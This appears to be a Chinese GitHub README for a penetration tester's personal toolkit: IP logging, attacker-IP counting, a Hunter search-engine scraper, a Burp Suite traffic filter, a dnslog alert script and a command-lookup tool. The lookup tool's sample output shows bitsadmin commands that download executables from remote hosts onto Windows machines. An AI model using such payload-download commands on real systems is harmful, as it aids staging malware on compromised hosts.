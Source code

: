 # 渗透测试小工具集

## getip 

> 记录自己平时做渗透的出口IP

没别的说的，就是记录一下自己平时的IP

## attacktop

> 攻击者IP次数统计


- 在看golang，顺手就把之前的一些python改成golang了。
- 这工具有个好处就在于统计出现次数，虽然Excel其实可以做得很好，但好多时候我连Excel都难得打开。把这工具添加环境变量，直接一条命令解决。

## hunters

> 奇安信全球鹰爬虫工具

网上其实关于hunter的爬虫工具非常多，但不知道为啥总冥冥之中觉得不适合自己，所以造了这个轮子。

功能大体跟别的相似，并且只支持hunter，原因是fofa有ehole、360可以直接导出。我费那个劲集成在一起干啥，并且这些工具其实人家都做得挺不错。

❎ 计划后头写成图形化的，别问为啥，有些时候命令行总觉得缺了点啥（单纯个人觉得）

## WebFilter

> 抓包过滤无意义网站

Burpsuite代理的时候可以使用这部分过滤非常多的垃圾网站（包含一部分互联网企业，如果挖掘src的需要自行研判了）以此减轻BurpSuite被动扫描的压力。


## Fs

> 快速命令检索工具

年龄大了？记忆不好？就用fs

代码很简洁，需要自己简单修改下代码，没有很好做好适配。

把你常用且又爱忘记的一些命令放到use.log里，然后通过执行Linux命令来检索。

那么你只需要编译好这个工具以后直接fs admin，就可以检索admin相关的信息出来。

如下所示：

```bash
➜  ~ fs bitsadmin
-+====================================+-
   181  ➜  windows download[+]:bitsadmin /rawreturn /transfer getfile http://x.x.x.x:8888/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
   183  ➜  windows download[+]:bitsadmin /rawreturn /transfer down "http://127.0.0.1:8080/z.exe" c:\\z.exe
   259  ➜  bitsadmin /rawreturn /transfer getfile http://x.x.x.x/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
-+====================================+-
```

不折不扣的懒人必备！

PS：之前有小伙伴问为什么不用命令行的那个提示符，那个感觉还是有点瑕疵，也就是你必须要记得前面字符，才会提示后面字符，而有时候是记得中间字符并不记得前面字符。

## ceyes

> Ceyes dnslog告警提示

起因：早之前一直使用低版本的BurpSuite1.7.33，奈何在低版本中logger插件动不动就卡死啥的。

使用了高版本bp后，心想这个问题就解决了。

没想到....昨天一堆log4j的告警，而我在logger里死活搜索不到。

所以。。。。就有了这个小脚本。

可以自己加定时任务，自动检索然后产生告警，还是舒服的。